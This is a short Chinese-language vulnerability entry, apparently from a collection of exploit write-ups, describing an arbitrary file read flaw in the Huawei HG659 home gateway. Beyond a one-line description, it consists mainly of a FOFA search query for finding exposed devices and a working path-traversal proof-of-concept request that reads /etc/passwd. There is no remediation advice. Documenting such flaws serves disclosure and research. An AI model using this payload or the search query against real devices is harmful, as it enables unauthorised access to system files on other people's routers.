 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>Huawei HG659</a-checkbox></br>

## FOFA

<a-checkbox checked>app="HUAWEI-Home-Gateway-HG659"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210615141459903.png)



POC如下



```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```



![img](../../../.vuepress/public/img/image-20210615141751249.png)

